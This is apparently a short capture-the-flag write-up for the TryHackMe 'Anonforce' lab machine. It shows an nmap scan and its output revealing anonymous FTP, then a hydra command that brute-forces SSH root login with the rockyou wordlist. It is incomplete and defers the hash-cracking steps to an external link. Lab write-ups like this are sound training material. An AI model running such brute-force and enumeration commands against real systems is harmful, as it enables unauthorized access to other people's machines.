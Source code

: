 # THM - Anonforce

## IP Address
10.10.211.151

## Write Up
1. do an Nmap scan.
```bash
#make a directory to store where you are going to store you nmap results
mkdir nmap
#scan for open ports and direct results to nmap/initial
nmap -p- -sV -sC -oN nmap/initial 10.10.211.151
```
2. The name results will result as shown. 2 ports will be open ```21``` and ```22```:
```
root@kali:~# nmap -p- -sV -sC -oN nmap/initial 10.10.211.151
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-23 10:33 UTC
Nmap scan report for ip-10-10-211-151.eu-west-1.compute.internal (10.10.211.151)
Host is up (0.0011s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
| drwxr-xr-x   17 0        0            3700 Apr 23 03:32 dev
| drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
| drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
| drwx------    2 0        0           16384 Aug 11  2019 lost+found
| drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
| drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
| drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
| dr-xr-xr-x  104 0        0               0 Apr 23 03:32 proc
| drwx------    3 0        0            4096 Aug 11  2019 root
| drwxr-xr-x   18 0        0             540 Apr 23 03:32 run
| drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
| dr-xr-xr-x   13 0        0               0 Apr 23 03:32 sys
|_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.56.64
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:f9:48:3e:11:a1:aa:fc:b7:86:71:d0:2a:f6:24:e7 (RSA)
|   256 73:5d:de:9a:88:6e:64:7a:e1:87:ec:65:ae:11:93:e3 (ECDSA)
|_  256 56:f9:9f:24:f1:52:fc:16:b7:7b:a3:e2:4f:17:b4:ea (ED25519)
MAC Address: 02:36:EE:53:40:A6 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.10 seconds

```
3. You will get the first flag in ```/home/melodias/user.txt```

## Brute-forcing
4.  Unzip your rockyou.txt if it is still zipped in kali.
```bash
root@kali:~# cd /usr/share/wordlists/
root@kali:/usr/share/wordlists# ls
dirb       fasttrack.txt  metasploit  rockyou.txt.gz
dirbuster  fern-wifi      nmap.lst    wfuzz
root@kali:/usr/share/wordlists# gunzip rockyou.txt.gz
```

5. Use ```hydra``` to bruteforce the ssh root login.
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.10.211.151
```

## John and Hashcat
refer to this writeup for the full detailed write up.
-[Anonforce Writeup](https://www.embeddedhacker.com/2019/09/hacking-walkthrough-boot2root-ctf-anonforce/)

